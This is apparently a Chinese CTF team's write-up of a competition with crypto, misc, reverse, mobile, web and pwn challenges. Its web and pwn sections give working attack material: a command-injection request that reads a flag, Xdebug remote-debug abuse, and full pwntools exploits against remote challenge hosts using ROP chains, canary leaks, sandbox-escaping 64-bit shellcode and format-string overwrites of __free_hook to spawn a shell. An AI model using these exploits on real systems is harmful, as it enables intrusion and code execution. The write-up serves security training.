

# CRYPTO

## OldDriver - 270

有个年轻人得到了一份密文，你能帮他看看么？

`
[{"c": 7366067574741171461722065133242916080495505913663250330082747465383676893970411476550748394841437418105312353971095003424322679616940371123028982189502042, "e": 10, "n": 25162507052339714421839688873734596177751124036723831003300959761137811490715205742941738406548150240861779301784133652165908227917415483137585388986274803},
{"c": 21962825323300469151795920289886886562790942771546858500842179806566435767103803978885148772139305484319688249368999503784441507383476095946258011317951461, "e": 10, "n": 23976859589904419798320812097681858652325473791891232710431997202897819580634937070900625213218095330766877190212418023297341732808839488308551126409983193},
{"c": 6569689420274066957835983390583585286570087619048110141187700584193792695235405077811544355169290382357149374107076406086154103351897890793598997687053983, "e": 10, "n": 18503782836858540043974558035601654610948915505645219820150251062305120148745545906567548650191832090823482852604346478335353784501076761922605361848703623},
{"c": 4508246168044513518452493882713536390636741541551805821790338973797615971271867248584379813114125478195284692695928668946553625483179633266057122967547052, "e": 10, "n": 23383087478545512218713157932934746110721706819077423418060220083657713428503582801909807142802647367994289775015595100541168367083097506193809451365010723},
{"c": 22966105670291282335588843018244161552764486373117942865966904076191122337435542553276743938817686729554714315494818922753880198945897222422137268427611672, "e": 10, "n": 31775649089861428671057909076144152870796722528112580479442073365053916012507273433028451755436987054722496057749731758475958301164082755003195632005308493},
{"c": 17963313063405045742968136916219838352135561785389534381262979264585397896844470879023686508540355160998533122970239261072020689217153126649390825646712087, "e": 10, "n": 22246342022943432820696190444155665289928378653841172632283227888174495402248633061010615572642126584591103750338919213945646074833823905521643025879053949},
{"c": 1652417534709029450380570653973705320986117679597563873022683140800507482560482948310131540948227797045505390333146191586749269249548168247316404074014639, "e": 10, "n": 25395461142670631268156106136028325744393358436617528677967249347353524924655001151849544022201772500033280822372661344352607434738696051779095736547813043},
{"c": 15585771734488351039456631394040497759568679429510619219766191780807675361741859290490732451112648776648126779759368428205194684721516497026290981786239352, "e": 10, "n": 32056508892744184901289413287728039891303832311548608141088227876326753674154124775132776928481935378184756756785107540781632570295330486738268173167809047},
{"c": 8965123421637694050044216844523379163347478029124815032832813225050732558524239660648746284884140746788823681886010577342254841014594570067467905682359797, "e": 10, "n": 52849766269541827474228189428820648574162539595985395992261649809907435742263020551050064268890333392877173572811691599841253150460219986817964461970736553},
{"c": 13560945756543023008529388108446940847137853038437095244573035888531288577370829065666320069397898394848484847030321018915638381833935580958342719988978247, "e": 10, "n": 30415984800307578932946399987559088968355638354344823359397204419191241802721772499486615661699080998502439901585573950889047918537906687840725005496238621}]`

这道题是RSA低加密指数广播攻击

脚本如下

```
from struct import pack,unpack
import zlib
import gmpy
def my_parse_number(number):
    string = "%x" % number
    #if len(string) != 64:
    #    return ""
    erg = []
    while string != '':
        erg = erg + [chr(int(string[:2], 16))]
        string = string[2:]
    return ''.join(erg)
def extended_gcd(a, b):
    x,y = 0, 1
    lastx, lasty = 1, 0
    while b:
        a, (q, b) = b, divmod(a,b)
        x, lastx = lastx-q*x, x
        y, lasty = lasty-q*y, y
    return (lastx, lasty, a)
def chinese_remainder_theorem(items):
  N = 1
  for a, n in items:
    N *= n
  result = 0
  for a, n in items:
    m = N/n
    r, s, d = extended_gcd(n, m)
    if d != 1:
      N=N/n
      continue
      #raise "Input not pairwise co-prime"
    result += a*s*m
  return result % N, N
sessions=[{"c": 7366067574741171461722065133242916080495505913663250330082747465383676893970411476550748394841437418105312353971095003424322679616940371123028982189502042, "e": 10, "n": 25162507052339714421839688873734596177751124036723831003300959761137811490715205742941738406548150240861779301784133652165908227917415483137585388986274803},
{"c": 21962825323300469151795920289886886562790942771546858500842179806566435767103803978885148772139305484319688249368999503784441507383476095946258011317951461, "e": 10, "n": 23976859589904419798320812097681858652325473791891232710431997202897819580634937070900625213218095330766877190212418023297341732808839488308551126409983193},
{"c": 6569689420274066957835983390583585286570087619048110141187700584193792695235405077811544355169290382357149374107076406086154103351897890793598997687053983, "e": 10, "n": 18503782836858540043974558035601654610948915505645219820150251062305120148745545906567548650191832090823482852604346478335353784501076761922605361848703623},
{"c": 4508246168044513518452493882713536390636741541551805821790338973797615971271867248584379813114125478195284692695928668946553625483179633266057122967547052, "e": 10, "n": 23383087478545512218713157932934746110721706819077423418060220083657713428503582801909807142802647367994289775015595100541168367083097506193809451365010723},
{"c": 22966105670291282335588843018244161552764486373117942865966904076191122337435542553276743938817686729554714315494818922753880198945897222422137268427611672, "e": 10, "n": 31775649089861428671057909076144152870796722528112580479442073365053916012507273433028451755436987054722496057749731758475958301164082755003195632005308493},
{"c": 17963313063405045742968136916219838352135561785389534381262979264585397896844470879023686508540355160998533122970239261072020689217153126649390825646712087, "e": 10, "n": 22246342022943432820696190444155665289928378653841172632283227888174495402248633061010615572642126584591103750338919213945646074833823905521643025879053949},
{"c": 1652417534709029450380570653973705320986117679597563873022683140800507482560482948310131540948227797045505390333146191586749269249548168247316404074014639, "e": 10, "n": 25395461142670631268156106136028325744393358436617528677967249347353524924655001151849544022201772500033280822372661344352607434738696051779095736547813043},
{"c": 15585771734488351039456631394040497759568679429510619219766191780807675361741859290490732451112648776648126779759368428205194684721516497026290981786239352, "e": 10, "n": 32056508892744184901289413287728039891303832311548608141088227876326753674154124775132776928481935378184756756785107540781632570295330486738268173167809047},
{"c": 8965123421637694050044216844523379163347478029124815032832813225050732558524239660648746284884140746788823681886010577342254841014594570067467905682359797, "e": 10, "n": 52849766269541827474228189428820648574162539595985395992261649809907435742263020551050064268890333392877173572811691599841253150460219986817964461970736553},
{"c": 13560945756543023008529388108446940847137853038437095244573035888531288577370829065666320069397898394848484847030321018915638381833935580958342719988978247, "e": 10, "n": 30415984800307578932946399987559088968355638354344823359397204419191241802721772499486615661699080998502439901585573950889047918537906687840725005496238621}]

data = []
for session in sessions:
    e=session['e']
    n=session['n']
    msg=session['c']
    data = data + [(msg, n)]
    print "-" * 80
print "Please wait, performing CRT"
x, n = chinese_remainder_theorem(data)
e=session['e']
realnum = gmpy.mpz(x).root(e)[0].digits()
print my_parse_number(int(realnum))
```

得到flag为：`flag{wo0_th3_tr4in_i5_leav1ng_g3t_on_it}`


## Cyrpto --- UNTITLED

与RSA有关的一个题，看了原码后发现一共有三层问题

1. md5开头为0000，这个loop去尝试就好hh
2. 给出了t % n的值u，令x=0，y=u即可满足两个约束条件，得到p的前568位
3. 根据给出的n和p的部分，计算出p的完整值，进而得出q，d，m，反解得flag

获得n和部分p的代码如下：

```python
from Crypto.Util.number import getPrime, long_to_bytes, bytes_to_long
import time
from os import urandom
import hashlib
import sys
import socket
import time
import primefac

HOST, PORT = "118.31.18.75", int(20013)
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, PORT))

time.sleep(0.1)
response = sock.recv(1024)
salt = response.decode("base64")
for i in range(21474836):
    ans = str(i)
    if hashlib.md5(salt + ans).hexdigest().startswith("0000"):
        sendBuf = salt + ans
        sock.send(ans.encode("base64"))
        #print sendBuf
        break

time.sleep(1)
response = sock.recv(2048)

nec = response.split()
n = nec[7]
e = nec[9]
c = nec[11]
u = nec[13]
print 'n:', n
print 'e:', e
print 'c:', c
print 'u:', u

x = "\n"
sock.send(x)

time.sleep(0.1)
response = sock.recv(1024)

y = u[2:-1] + "\n"
sock.send(y)

time.sleep(1)
response = sock.recv(2024)
print response
time.sleep(1)
response = sock.recv(2024)
print response
```

获得p的部分，反正p后面要补好多0，补到1024位，这里用到sage：

```python
n = 0x801084522df81b7806b743dd951ca5c6bde5d9dabf263294a83c86505f453b0762e960a37faa81dc989569745a508b2588c0532585553da62c24541d7d6f71cb8bc5a0602e43fc478efbc3638623a57ac175efaa1fde3bf1d02887616ac9bd4b70c30db320120f12b547b6a6554f08a2ba8528fda2945c718cd3cde4dab4299b3ce94338fa27929892d200df50171b47f993018105a25001690717abc77c0131cd5702a62292028d08228555c7e1f6b8253d8ff7654a827681721bdcfd1e71e2cbece787f4735397f9d39dc65a3d7818202b8bae311af0c9fe70d821016037b346e65c78e72a35fd331d961949daa14b887d3e40f765ef8b71edefe1b5341fa1

list = "0123456789abcdef"

for i in range(16):
    for j in range(16):
        p = "e4363c0915786909a36d9d54d96ed97e0ac67c3a8847407edb9bc451d74c133e4bc5462b27c8148a076fc5ccaac7c8e71c42d3c10e9ebc11682869ff17d313ceaf98e741735b61"
        p = p + list[i]+list[j]
        p = p + "0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"
        #print(len(bin(int(p,16))))  补到1024位

        p_fake = int(p,16)+0x10000000000000000000000000
        pbits = 1024
        kbits = pbits-576
        pbar = p_fake & (2^pbits-2^kbits)
        print("upper %d bits (of %d bits) is given" % (pbits-kbits, pbits))
        PR.<x> = PolynomialRing(Zmod(n))
        f = x + pbar
        try:
            x0 = f.small_roots(X=2^kbits, beta=0.4)[0]  # find root < 2^kbits with factor >= n^0.4
            print(x0 + pbar)
        except:
            pass
#得到p=160255813458909382918058506899602422079898220229794515835222367091556159862378456314121536807368503516657739546056671752071288042487346011962208110177905840552526093246897249322358419804791224286043620326537873469925576481982463705731818863194363569391830618480035551441359752496673377713407626422108108439927
```

最后解得flag：

```python
q=n/p
e=0x10001
d=primefac.modinv(e,(p-1)*(q-1))%((p-1)*(q-1))

m = pow(c,d,n)
# m = 0x666c61677b7273345f79306f6b5f73305f6d3263685f316e5f6337665f7175346c735f63306d703774317431306e7dL
# flag{rs4_y0ok_s0_m2ch_1n_c7f_qu4ls_c0mp7t1t10n}
```

# MIsc

## Misc --- PY-PY-PY

看着名字就像需要py的题嗝

下载到一个pyc文件，拿到在线反编译工具中，得到原码，是rc4，跑一下解码得到提示，这是一个隐写术的题目。

```python
# /usr/bin/python
# coding=utf-8
import sys, os, hashlib, time, base64


def rc4(string, op='encode', public_key='ddd', expirytime=1000):
    ckey_lenth = 4
    public_key = public_key and public_key or ''
    key = hashlib.md5(public_key).hexdigest()
    keya = hashlib.md5(key[0:16]).hexdigest()
    keyb = hashlib.md5(key[16:32]).hexdigest()
    keyc = ckey_lenth and (
    op == 'decode' and string[0:ckey_lenth] or hashlib.md5(str(time.time())).hexdigest()[32 - ckey_lenth:32]) or ''
    cryptkey = keya + hashlib.md5(keya + keyc).hexdigest()
    key_lenth = len(cryptkey)
    string = op == 'decode' and base64.b64decode(string[4:]) or '0000000000' + hashlib.md5(string + keyb).hexdigest()[
                                                                               0:16] + string
    string_lenth = len(string)

    result = ''
    box = list(range(256))
    randkey = []

    for i in xrange(255):
        randkey.append(ord(cryptkey[i % key_lenth]))

    for i in xrange(255):
        j = 0
        j = (j + box[i] + randkey[i]) % 256
        tmp = box[i]
        box[i] = box[j]
        box[j] = tmp

    for i in xrange(string_lenth):
        a = j = 0
        a = (a + 1) % 256
        j = (j + box[a]) % 256
        tmp = box[a]
        box[a] = box[j]
        box[j] = tmp
        result += chr(ord(string[i]) ^ (box[(box[a] + box[j]) % 256]))
    print result[0:4].encode('hex')
    if op == 'decode':
        try:
            if (result[0:10] == '0000000000' or int(result[0:10]) + int(time.time()) > 0) and result[10:26] == hashlib.md5(
                            result[26:] + keyb).hexdigest()[0:16]:
                print result
                return result[26:]
            else:
                return None
        except:
            pass
        else:
            pass
    else:
        return keyc + base64.b64encode(result)

fllag = '9474yeUMWODKruX7OFzD9oekO28+EqYCZHrUjWNm92NSU+eYXOPsRPEFrNMs7J+4qautoqOrvq28pLU='
print rc4(fllag,'decode')
# The challenge is Steganography
```


查看了下文件没什么好结果，对比了py3.6编译的其他pyc也没有啥好思路。

遂google：pyc Stegosaurus

发现了可以往pyc里藏东西的工具https://n0where.net/python-steganography-tool-stegosaurus/

下载下来运行得到flag


# REVERSE

## CrackMe

MFC程序，xspy或者Resource_Hacker定位关键函数，如下图：  


flag: The-Y3ll0w-turb4ns-Upri$ing

## EASYHOOK

程序hook了writefile函数，找到hook的函数，即是关键函数，如下图，跑脚本，奇数位和偶数位的字符拼在一起就是flag。  


```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

compare_table =[0x61,0x6A,0x79,0x67,0x6B,0x46,0x6D,0x2E,0x7F,0x5F,0x7E,0x2D,0x53,0x56,0x7B,0x38,0x6D,0x4C,0x6E]
test = ['f','l','a','g','{','H','o','0','k','_','w','1','t','h','_','F','u','n','}']
ans = ''

for i in range(19):
	for ch in range(32,127):
		if i == 18:
			tmp = ch ^ 0x13
			if tmp == compare_table[18]:
				ans += chr(ch)
				break
		else:
			if (i % 2): #偶数位
				temp = ch - i
				if((i ^ temp) == compare_table[i]):
					ans += chr(ch)
					break
			else: #奇数位
				print chr(compare_table[i] ^ i),
				break
					
					
print ans
print ''.join(test)		
```


## BABYRE 200

程序在开始之前先搞了一波骚操作，把judge的代码还原了一波，即统统异或0xc，编写IDC脚本手动还原代码

```IDC
#include <idc.idc>
static main()
{
    auto a = 0x600b00;
    auto i;
    for (i=0; i<0xb5;i++)
    {
        PatchByte(a+i,Byte(a+i)^0xc);
    }
}

```

得到check代码，check非常简单，即将输入的字符与其字符串下标异或后与已知字符串对比，于是将已知字符串与其下标异或即可。

```Python
s = '\x66\x6d\x63\x64\x7f\x6b\x37\x64\x3b\x56\x60\x3b\x6e\x70'

s = list(s)
for i in range(len(s)):
	s[i] = chr(ord(s[i])^i)

print ''.join(s)
```

answer: flag{n1c3_j0b}

# MOBILE

## FINDMYMORSE

拿到APK逆java代码没有任何内容，打开so库发现其输出了log数据。查看log，随手点击几次，发现其首部序列为'f'的二进制序列1100110,长按代表1，短按代表0。静态看代码可知其余内部一个字符串进行了比较。
动态调试发现其比较规则为0,7,14,21顺次从低位到高位组成，完成后比较1,8,15,22从低位到高位顺次比较，直到字符串读取完毕。

```Python
s = [0xa7 ,0xd6 ,0x61 ,0xb5 ,0x6e ,0xbb ,0xba ,0xe3 ,0xa9 ,0xdd ,0xc4 ,0x77 ,0x6f ,0xee ,0xec ,0xff ,0x62 ,0xc3 ,0xcf ,0xda ,0x53 ,0xce ,0xff ,0x71 ,0x71 ,0x14 ,0xff ,0xf2]
ans = '' 
count = 0
t = 0
print '------------- new round -------------'
for i in range(7):
	for m in range(8):
		for j in range(4):
			t = t<<1
			t += s[j*7+i]&1
			print j,i,s[j*7+i],s[j*7+i]&1,t,hex(j*7+i)
			s[j*7+i] = s[j*7+i] >> 1
			count += 1
			if count == 7:
				print hex(t)
				print '------------- new round -------------'
				ans += chr(t)
				count = 0
				t = 0
print ans
```

answer ： flag{no7_tHE_Re@L_MoRsE_/o/2z2z}


# Web

## NOT_ONLY_XSS

留言部分存在XSS

首先构造正常img标签，从服务端的HTTP请求包可以看到Referer中的地址，同时可以发现管理员访问时是使用file://协议访问的

打开Referer页面后可以看到filter.js的过滤代码

虽然过滤代码比较长，但是看一下发现可以简单绕过

当前域为file://,  PhantomJS可以使用file://协议读文件，所以可以直接读取flag.php

参考：https://xianzhi.aliyun.com/forum/read/1808.html

完整Payload如下

```


```

## EMMM

这题就一个phpinfo页面，发现服务器开启了Xdebug，并且可以看到开启了远程调试，并且IDE Key为www-data

```
xdebug.remote_enable= true
xdebug.remote_connect_back= true
```

remote_connect_back这个配置是一个比较危险的配置，服务器允许被任何主机调试，且主机发起调试请求后服务器会主动连接调试者的9000端口

这里我直接接了小伙伴的一台外网Windows服务器装了PHPSTORM进行远程调试

直接在Debug Configrations里新建PHP Web Application，然后监听调试请求，

最后访问http://xxx/phpinfo.php?XDEBUG_SESSION_START=www-data 等待服务器连接即可



出题的rr大佬在比赛结束后也公开了博客讲这个问题：
https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface

## Router

题目是模仿一个路由器固件，题目给了一个Go编译的二进制文件

strings一下发现二进制文件提供了export.php, import.php等很多页面，挨个访问一下发现export.php未授权访问，可以下settings.conf

Go的二进制文件用IDA反编译出来的结果不是很友好。。。 

这里有一个IDA Python脚本，可以恢复函数名
https://raw.githubusercontent.com/strazzere/golang_loader_assist/master/golang_loader_assist.py

二进制文件运行起来之后直接是一个Web服务器，服务器会加载目录下的settings.conf，若文件不存在会自己生成一个

settings.conf内容是加密/压缩过的，使用gdb调试在下图处下个断点就能看到解密/解压缩之后的settings.conf


上图中是默认的密码router/router，做题的时候下载settings.conf即可解密出当前密码

登陆进去之后发现可以执行nslookup/ping等命令，逆向该部分代码发现一个隐藏的功能


修改nslookup功能的HTTP包中数据为action=command&command=cat flag即可读取到flag


# PWN

## Sandbox

查看vuln程序可以发现一个很简单栈溢出，然后会溢出到index位置上去，这样就可以通过复写index来绕过canary的检测，构造rop就可以拿到flag。


但是这题在外层加了沙箱的限制，导致一些关键的系统调用被禁掉，在这里可以通过long jmp实现从32位模式跳到64位模式，然后利用64位系统调用就可以获取的flag了。


exp:

```python
from pwn import *
context(arch='i386',os='linux',endian='little')
context.log_level='debug'

def game_start(p,libc):
    puts_addr=0x08048470
    puts_plt=0x0804A018
    read_addr=0x08048440
    stack_povit=0x0804a000+0x400
    pop_ret=0x08048421
    leave_ret=0x08048659
    shellcode=p32(puts_addr)+p32(pop_ret)+p32(puts_plt)+p32(read_addr)+p32(0x08048729)+p32(0)+p32(stack_povit)+p32(0x400)+p32(0x0804872b)+p32(stack_povit)+p32(leave_ret)
    p.sendline('a'*0x30+p8(0x48)+shellcode)
    p.recvline()
    libc.address=u32(p.recv(1024)[0:4])-libc.symbols['puts']
    print 'libc address is:',hex(libc.address)
    rop=ROP(libc)
    rop.mmap(0x233000,0x1000,7,34,0,0)
    rop.read(0,0x233000,0x1000)
    rop.call(0x233000)
    p.send(p32(0)+str(rop))
    shellcode=shellcraft.fork()+'''
    cmp eax,0;
    jnz lab1;
    '''+shellcraft.sh()+'''
    lab1:
    mov eax,0;
    jmp lab1;
    '''

    shellcode=''
    shellcode=shellcode+asm('jmp    0x33:0x233010;',arch='i386').ljust(0x20,'\x90')
    #shellcode=shellcode+'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
    shellcode=shellcode+'H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8/.gm`f\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x05H\x89\xc71\xc0j0Z\xbe\x01\x01\x01\x01\x81\xf6\x01\xa5\x05\t\x0f\x05j\x01_j0Z\xbe\x01\x01\x01\x01\x81\xf6\x01\xa5\x05\tj\x01X\x0f\x05'
    p.send(shellcode)

    p.interactive()

if __name__=='__main__':
    debug=2
    if debug==1:
        p=process(['./sandbox','./vuln'])
        #p=process(['./vuln'])
        libc=ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p=remote('118.31.18.145',20004)
        libc=ELF('./libc.so.6')

    #gdb.attach(p,'b *0x0804863F')

game_start(p,libc)

```


## RC4

降了两次难度之后，终于做出来这题了，这题在main函数中有一个明显的栈溢出，但是有canary挡着，无法实现利用，但是在Generate a key的时候，会发现第二次生成密钥的时候，有一个使用了未初始化内存的漏洞，试了试，发现可以将canary泄露出来，然后就可以构造rop了。


exp:

```python
from pwn import *
context(arch='amd64',os='linux',endian='little')
context.log_level='debug'

def generate(p):
    p.recvuntil('> ')
    p.sendline('a')
    p.recvuntil('> ')
    p.sendline('b')
    return p.recvn(32)

def game_start(p,libc):
    generate(p)
    canary=u64(generate(p)[16:32].decode('hex'))
    #print generate(p)[16:32].decode('hex')
    print 'canary is :',hex(canary)

    puts_addr=0x004007C0
    puts_got=0x0602020
    rdi_ret=0x0000000000401283
    rbp_ret=0x0400ca5
    leave_addr=0x401218
    gets_addr=0x400860
    stack_poivt=0x00602000+0x400

    shellcode=p64(rdi_ret)+p64(puts_got)+p64(puts_addr)+p64(rdi_ret)+p64(stack_poivt)+p64(gets_addr)+p64(rbp_ret)+p64(stack_poivt)+p64(leave_addr)


    p.recvuntil('> ')
    p.sendline('b')
    p.sendline(''.ljust(0x108,'\x00')+p64(canary)+p64(0)+shellcode)
    p.recvuntil('> ')
    p.sendline('d')
    p.recvuntil('> ')
    p.sendline('a')
    libc.address=u64(p.recv(1024).ljust(8,'\x00'))-libc.symbols['puts']
    rop=ROP(libc)
    rop.call(libc.symbols['system'],[next(libc.search('/bin/sh'))])
    p.sendline(p64(0)+str(rop))

    p.interactive()

if __name__=='__main__':
    debug=0
    if debug==1:
        p=process('./rc4')
        libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p=remote('118.31.17.25',20011)
        libc=ELF('./libc.so.1.6')

    #gdb.attach(p,'b *0x0401138')

game_start(p,libc)

```


## Note_sys

这题在删除log的时候会启动一个线程去删除最后的一个数据，而这个线程中有一个sleep，在读写的时候，又没有加保护锁，这就存在竞争的问题


exp:

```python
from pwn import *
context(arch='amd64',os='linux',endian='little')
context.log_level='debug'

def make(p,s):
    p.recvuntil('choice:\n')
    p.sendline('0')
    p.recvuntil('characters\n')
    p.sendline(s)
    p.recvuntil('logged successfully!\n')

def game_start(p):
    shellcode=asm(shellcraft.sh())
    make(p,'aaaa')
    p.send('2'.ljust(18,'\n')+'1\n')
    p.sendline('0')
    p.sendline(shellcode)

    p.interactive()

if __name__=='__main__':
    debug=0
    if debug==1:
        p=process('./note_sys')
    else:
        p=remote('118.31.18.29',20003)

    #gdb.attach(p)

    game_start(p)

```

## Easypwn

这题有一个snprintf函数存在溢出，可以溢出到format字符串，从而修改format字符串达到格式化字符串攻击，然后修改__malloc_hook拿shell


```python
from pwn import *
context(arch='amd64',os='linux',endian='little')
context.log_level='debug'

def vuln(p,s):
    p.recvuntil(':\n')
    p.sendline('1')
    p.recvuntil(':\n')
    p.send(s)

def game_start(p,libc):
    vuln(p,'a'*1000+'%s|%5$p|%397$p|')
    p.recvuntil('|0x')
    stack_addr=int(p.recvuntil('|')[0:-1],16)
    print 'stack addr:',hex(stack_addr)

    p.recvuntil('0x')
    libc.address=int(p.recvuntil('|')[0:-1],16)-0x20830
    print 'libc address:',hex(libc.address)
    print 'system address:',hex(libc.symbols['system'])
    
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']))
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>8))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+1))
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>0x10))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+2))
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>0x18))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+3))
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>0x20))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+4))
    vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>0x28))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+5))
    vuln(p,'a'*1000+('%s%'+str(-1022+0x10000)+'c%133$hn').ljust(16,'a')+p64(libc.symbols['__free_hook']+6))
    #vuln(p,'a'*1000+('%s%'+str((-1022+(libc.symbols['system']>>0x38))%256)+'c%133$n').ljust(16,'a')+p64(libc.symbols['__free_hook']+7))

    p.recvuntil(':\n')
    p.sendline('2')
    p.recvuntil(':\n')
    p.send('/bin/sh')
    
    p.interactive()

if __name__=='__main__':
    debug=0
    if debug==1:
        p=process('./easypwn')
        libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p=remote('118.31.10.225',20001)
	libc=ELF('./libc.so.6')

    #gdb.attach(p)
    game_start(p,libc)

```

